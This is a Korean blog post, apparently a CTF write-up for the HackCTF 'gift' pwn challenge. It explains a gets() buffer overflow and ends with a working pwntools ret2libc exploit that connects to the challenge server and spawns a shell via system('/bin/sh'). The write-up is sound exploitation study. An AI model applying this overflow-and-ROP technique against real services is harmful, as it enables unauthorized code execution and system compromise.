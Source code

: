 ```yaml
---
layout: post
title:  "HacCTF gift write-up"
date:   2020-02-03 19:45:55
image:  hackctf_gift.PNG
tags:   [HackCTF]
categories: [Write-up]
---
```


# [HackCTF] gift

Date: Feb 03, 2020
Tags: report


### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled.png)

NX비트 말곤 다 안걸려있다.

**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled%201.png)

바이너리를 실행시켜보면 두개의 주소를 알려주고 두개의 입력을 받고 종료가 된다. 해당 주소를 이용하여 진행을 하는것으로 보인다

**3) 코드 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled%202.png)

출력되는 주소가 binsh의 주소와 system함수의 주소이다. 그리고 fgets로 128바이트 만큼 입력을 받고, 입력한 문자열을 출력해준 뒤, gets로 한번더 입력을 받게 된다. 여기서는 크기 제한이 없으므로 bof를 일으켜 ret를 변경하여 system함수를 실행시키면 될 것이다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled%203.png)

하지만 자세히 보면 system 함수는 실제 함수의 주소이지만, binsh는 .bss 영역에 저장된 전역변수의 이름이 binsh이다. 해당 주소를 rop의 인자로 넣으면 아무 소용이 없다. 이를 염두해야한다

### 2. 접근방법

---

system함수를 주기 때문에 libc_base를 구하여 오프셋을 이용해 "/bin/sh" 의 주소를 찾고 ROP를 진행하면 될 것이다. 매우 간단한 문제이다. libc_database를 이용하여 libc의 버전을 확인해보자

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled%204.png)

ubuntu10의 2.23 버전이다. 현재 내 환경은 ubuntu16이기 때문에 로컬에서는 될지 몰라도 원격에서는 오프셋이 다르기 때문에 ubuntu10에서의 오프셋을 구해야한다. dump 프로그램을 이용하자

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled%205.png)

system함수와 bin_sh의 오프셋을 확인가능하다. 이를 이용하여 ROP를 진행하자

### 3. 풀이

---

최종 익스코드는 다음과 같다

    from pwn import *
    context.log_level="DEBUG"
    p=remote("ctf.j0n9hyun.xyz",3018)
    #p=process("./gift")
    #gdb.attach(p)
    
    tmp=p.recvline()
    bin_bash=int(tmp[32:41],16)
    system_addr=int(tmp[42:],16)
    
    log.info("bin::"+hex(bin_bash))
    log.info("system::"+hex(system_addr))
    
    libc_base=system_addr-0x0003a940
    gets_adr=libc_base+0x5f3e0
    
    p.sendline("A")
    #p.recvline()
    
    payload="A"*0x88+p32(system_addr)
    payload+=p32(0x080483ad)
    payload+=p32(libc_base+0x15902b)
    #payload+=p32(system_addr)
    #payload+="AAAA"
    #payload+=p32(bin_bash)
    
    
    p.sendline(payload)
    #p.sendline("/bin/sh\00")
    
    p.interactive()

### 4. 몰랐던 개념

---

처음에 libc_databe의 우분투 버전을 제대로 확인하지 않아서 계속 시간낭비를 했다. 주어진 문제의 조건들을 잘 확인하자..